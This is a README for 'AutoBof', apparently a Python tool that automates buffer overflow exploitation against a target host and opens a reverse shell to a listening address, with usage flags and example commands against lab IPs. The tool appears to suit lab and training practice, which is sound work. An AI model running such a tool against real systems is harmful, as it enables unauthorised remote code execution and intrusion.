 # AutoBof

### A tool for automating buffer overflow exploitation.

##### Usage:
  ```
  kali@kali:~$ python3 autobof.py --rhost RHOST --rport RPORT --prefix PREFIX --suffix SUFFIX --lhost LHOST --lport LPORT
  
     -h, --help       show this help message and exit
     --rhost RHOST    target ip address  ------------- [required]
     --rport RPORT    target port -------------------- [required]
     --prefix PREFIX  string prefix ------------------ [optional; default: ""]
     --suffix SUFFIX  string suffix ------------------ [optional; default: ""]
     --lhost LHOST    listening ip address ----------- [optional; default: tun0]
     --lport LPORT    listening port ----------------- [optional; default: 443]

  ```
##### Examples:
  ```
  kali@kali:~$ python3 autobof.py --rhost 10.10.1.41 --rport 1337
  kali@kali:~$ python3 autobof.py --rhost 10.10.1.41 --rport 12345 --prefix "hello" --lhost eth0
  kali@kali:~$ python3 autobof.py --rhost 10.10.1.41 --rport 777 --suffix " ending string!" --lport 4444
  kali@kali:~$ python3 autobof.py --rhost 10.10.1.41 --rport 930 --prefix "Username: " --suffix "end" --lhost 192.168.1.10 --lport 1234
  ```


##### Future features:
    * Better selection of payloads.
    * Windows compatibility (msfvenom alternatives).
    * Dynamic selection of nops.
    * Dynamic adjustments to send_bytes().
    * Auto detection of register values and possibly badchars for total automation.
    * Auto creation of a poc.py file using variable values assigned.
    * Different modes (beginner/intermediate/advanced) depending on if you want to use the tool as an instructional
      walkthrough to learn bofs or if you just want to just throw it at a target and get a shell.
